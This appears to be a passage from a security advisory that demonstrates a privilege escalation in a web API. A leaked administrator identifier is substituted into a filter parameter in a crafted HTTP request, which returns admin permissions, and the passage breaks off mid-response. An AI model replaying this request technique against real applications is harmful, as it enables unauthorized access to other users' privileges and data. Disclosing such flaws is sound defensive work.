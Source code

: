 ```
Content-Length: 361
Connection: keep-alive
Vary: Origin
Vary: Access-Control-Request-Method
Vary: Access-Control-Request-Headers
Access-Control-Allow-Origin: *

{
    "data": [{
        "type": "CompanyUserGetResponseDTO",
        "attributes": {
            "companyId": "FA**************",
            "companyTaxIdentifier": "B999*******",
            "bizName": "company sl",
            "email": "jose*******@domain.local",
            "userRole": {
                "userRoleId": 1,
                "userRoleKey": "general.roles.admin"
            },
            "companyCountryTranslationKey": "*******",
            "type": "CompanyUserGetResponseDTO"
        }
    }]
}
```

After knowing an identifier of an administrator user, it would be possible to exploit a privilege escalation by replacing or adding the corresponding filter with the administrator's identifier and getting the same privileges:
### Request
```
GET /api/functionalities/allPermissionsFunctionalities?filter[companyUsers]=user.id=='94****************************' HTTP/1.1
Host: localhost:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: application/vnd.api+json
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/vnd.api+json
Authorization: Bearer eyJ.....
Origin: https:/localhost:3000
Connection: keep-alive
Referer: https:/localhost:3000/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-site
```
### Response
```
HTTP/1.1 200 
Date: Sat, 22 Mar 2025 18:53:00 GMT
Content-Type: application/vnd.api+json;charset=UTF-8
Content-Length: 68833
Connection: keep-alive
Vary: Origin
Vary: Access-Control-Request-Method
Vary: Access-Control-Request-Headers
Access-Control-Allow-Origin: *

{
    "meta": {
        "Functionalities": [{
            "functionalityId": 1,
```